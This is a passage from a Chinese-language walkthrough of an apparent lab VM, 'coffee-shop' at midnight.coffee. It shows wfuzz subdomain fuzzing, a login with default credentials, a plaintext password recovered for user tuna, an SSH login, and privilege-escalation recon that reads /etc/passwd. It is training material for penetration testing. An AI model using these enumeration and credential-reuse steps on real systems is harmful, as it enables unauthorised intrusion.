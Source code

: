 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404011325642.png" alt="image-20240401124831108" style="zoom: 33%;" />

ok。

查看一下之前看到的敏感文件：

```bash
/.htpasswds
/.htpasswd_test
You don't have permission to access this resource.
```

尝试FUZZ一下：

```bash
wfuzz -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  -u midnight.coffee  -H "Host: FUZZ.midnight.coffee"  --hh 1690 2>/dev/null
```

![image-20240401125523410](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404011325643.png)

尝试添加dns访问：

```bash
10.0.2.15 midnight.coffee dev.midnight.coffee
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404011325644.png" alt="image-20240401125722241" style="zoom: 33%;" />

给出了账号密码，尝试登录：

```bash
developer
developer
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404011325645.png" alt="image-20240401125815772" style="zoom: 33%;" />

```apl
tuna : 1L0v3_TuN4_Very_Much
```

### ssh连接

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404011325646.png" alt="image-20240401125939986" style="zoom:33%;" />

## 提权

### 信息搜集

```bash
tuna@coffee-shop:~$ sudo -l
[sudo] password for tuna: 
Sorry, user tuna may not run sudo on coffee-shop.
tuna@coffee-shop:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```